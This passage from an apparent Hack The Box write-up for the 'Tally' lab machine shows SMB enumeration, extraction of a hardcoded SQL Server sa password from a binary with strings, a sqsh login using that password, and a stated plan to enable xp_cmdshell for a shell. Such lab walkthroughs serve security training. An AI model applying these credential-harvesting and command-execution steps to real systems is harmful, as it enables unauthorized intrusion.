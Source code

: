 In `\zz_Archived\SQL\` we find an interesting file called conn-info.txt, using `get` to bring it back to our machine, we find yet another pair of credentials:

![sa.png](../assets/tally_assets/sa.png)

Hmm, looks like these credentials aren't working anywhere. Lets keep enumerating SMB.

In the `\zz_Migration\Binaries\New Folder\` share we find a file called teset.exe. Bringing that back locally and running the `strings` command against it we find even more credentials:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ strings tester.exe 

<SNIP>

Message: 
DRIVER={SQL Server};SERVER=TALLY, 1433;DATABASE=orcharddb;UID=sa;PWD=GWE3V65#6KFH93@4GWTG2G;
select * from Orchard_Users_UserPartRecord
```

Nice, we can now login to the DB with:

```text
┌──(ryan㉿kali)-[~/HTB/Tally]
└─$ sqsh -S 10.10.10.59 -U sa -P'GWE3V65#6KFH93@4GWTG2G'
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1>
```

Because we're the sa user, lets enable xp_cmdshell so we can get a shell:

![sql.png](../assets/tally_assets/sql.png)
